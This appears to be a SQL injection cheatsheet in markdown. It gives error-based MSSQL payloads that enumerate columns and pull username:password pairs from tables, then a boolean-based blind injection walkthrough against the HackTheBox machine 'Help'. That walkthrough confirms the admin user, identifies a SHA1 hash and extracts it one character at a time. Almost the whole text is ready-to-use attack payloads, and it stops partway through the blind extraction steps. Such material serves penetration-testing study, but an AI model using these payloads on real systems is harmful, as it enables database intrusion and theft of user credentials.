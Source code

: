 and 1 IN (select top 1 cast($DB_NAME..syscolumns.name as varchar(4096)) from $DB_NAME..syscolumns, $DB_NAME..sysobjects where $DB_NAME..syscolumns.id=$DB_NAME..sysobjects.id and $DB_NAME..sysobjects.name='$TABLE_NAME' and $DB_NAME..syscolumns.name NOT IN ('$COLUMN_NAME'))
```
OR like
```
and 1 IN (select top 1 column_name from information_schema.columns where TABLE_NAME=cast(0x636c75625f6d656d62657273 as varchar)and column_name NOT IN ('id','name','username'))
```
-> this should print out the next column.

Extract the username and password pair from a table:
```
or 1 IN (select top 1 cast(username%2b':::'%2bpassword as varchar(4096)) from $DB_NAME..$TABLE_NAME)
```
where %2b is for string concat, and ':::' is just a seperator.

Extract an username from a table:
```
and 1 IN (select username from $TABLE_NAME)
```
or another user:
```
and 1 IN (select username from $TABLE_NAME where username!='$USERNAME')
``` 

Or just extract the password if the username and table name is known:
```
and 1 IN (select top 1 password from $TABLE_NAME where name='$USERNAME')
```



### Blind/Boolean based SQL Injection:
Read more: https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi#mysql-boolean-based-blind-sql-injection-cheatsheet

Example from the machine Help from HTB:
```&param[]=6 and (length(database())) = 7-- -```
returns the site properly:
database name length has 7 characters

looking at the source code of helpdeskZ
table name we're looking for is likely to be 'staff'

check if username of 'staff' table is 'admin'

```&param[]=6 and ((select username from staff limit 0,1 )) = 'admin'-- -```
returns the site properly -> username is admin

Try and check for length of password (hashed)
md5: 32 characters
sha1: 40 characters
sha256: 64 characters

```&param[]=6 and (length((select password from staff limit 0,1 ))) = 32-- -```
does not return site properly -> not 32

```&param[]=6 and (length((select password from staff limit 0,1 ))) = 40-- -```
returns site properly -> password hash is sha1

check if first character of the password hash is 'a'
```&param[]=6 and (substr((select password from staff limit 0,1 ),1,1)) = 'a'-- -```\
iterate a->f 0->9 until request returns site properly

check for second character:
```
